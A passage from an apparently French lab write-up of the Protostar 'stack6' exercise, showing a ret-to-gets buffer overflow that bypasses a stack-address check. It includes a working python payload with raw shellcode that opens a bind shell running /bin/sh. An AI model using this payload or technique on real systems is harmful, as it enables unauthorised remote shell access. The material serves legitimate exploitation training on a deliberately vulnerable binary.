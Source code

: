 Mais surtout si on tente d'écraser l'adresse de retour par une adresse de la stack (du type `0xbfXXXXXX`) alors le programme le détecte (voir instruction à `0x080484bd`) et appelle `exit()` :

```shellsession
$ python -c 'print "A"*80 + "\x01\x01\x01\xbf"' | ./stack6
input path please: bzzzt (0xbf010101)
```

Un `ret2libc` pourrait fonctionner mais ici au lieu de passer l'adresse de `system()` on va appeller à nouveau la fonction `gets()` pour quelle lise notre shellcode vers une adresse que l'on controle (mais pas sur la stack) puis saute dessus.

Si on lance le programme on peut (par exemple pendant qu'il attend des données) aller voir sa structure en mémoire via le fichier `maps` sous son pid dans `/proc` :

```shellsession
$ cat /proc/2385/maps
08048000-08049000 r-xp 00000000 00:10 4963       /opt/protostar/bin/stack6
08049000-0804a000 rwxp 00000000 00:10 4963       /opt/protostar/bin/stack6
b7e96000-b7e97000 rwxp 00000000 00:00 0 
b7e97000-b7fd5000 r-xp 00000000 00:10 759        /lib/libc-2.11.2.so
b7fd5000-b7fd6000 ---p 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd6000-b7fd8000 r-xp 0013e000 00:10 759        /lib/libc-2.11.2.so
b7fd8000-b7fd9000 rwxp 00140000 00:10 759        /lib/libc-2.11.2.so
b7fd9000-b7fdc000 rwxp 00000000 00:00 0 
b7fe0000-b7fe2000 rwxp 00000000 00:00 0 
b7fe2000-b7fe3000 r-xp 00000000 00:00 0          [vdso]
b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
```

On voit que la seconde plage d'adresse (qui commence à `0x08049000`) est écrivable et exécutable. Normalement c'est une section pour des variables mais on va mettre notre shellcode dedans.

Il nous faut déjà l'adresse de `gets` :

```shellsession
$ objdump -d stack6 | grep gets
08048380 <gets@plt>:
 80484aa:       e8 d1 fe ff ff          call   8048380 <gets@plt>
```

Et ensuite on va passer l'adresse `0x08049004` histoire de ne pas avoir d'octet nul. On la passe plusieurs fois car il y a l'argument pour `gets`, du padding ainsi que l'adresse de retour suivante pour sauter sur le shellcode :

```shellsession
$ python -c 'print "A"*80 + "\x80\x83\x04\x08" + "\x04\x90\x04\x08" * 3; print "\x31\xc0\x31\xdb\xb0\x66\xb3\x01\x31\xd2\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xb3\x02\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x56\x89\xe1\xcd\x80\x89\xc6\x31\xc9\xb0\x3f\x89\xf3\xcd\x80\xfe\xc1\x66\x83\xf9\x02\x7e\xf2\x31\xc0\x50\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' | ./stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�AAAAAAAAAAAA��
```
